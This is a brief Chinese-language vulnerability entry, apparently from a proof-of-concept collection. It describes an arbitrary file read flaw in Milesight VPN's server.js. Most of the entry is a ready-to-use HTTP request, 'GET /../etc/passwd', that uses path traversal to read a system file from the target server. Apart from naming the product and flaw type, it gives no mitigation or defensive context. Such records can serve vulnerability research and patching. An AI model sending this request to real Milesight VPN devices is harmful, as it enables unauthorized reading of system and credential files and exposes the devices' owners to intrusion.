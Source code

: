 #### 影响范围

Milesight VPN

#### 漏洞类型

任意文件读取

#### 漏洞概述

Milesight VPN server.js任意文件读取漏洞

#### 漏洞复现

漏洞POC：

```
GET /../etc/passwd HTTP/1.1
Host: x.x.x.x:xxxx
Connection: close
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
sec-ch-ua: "Not/A)Brand";v="99", "Google Chrome";v="115", "Chromium";v="115"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Accept-Language: zh-CN,zh;q=0.9

```



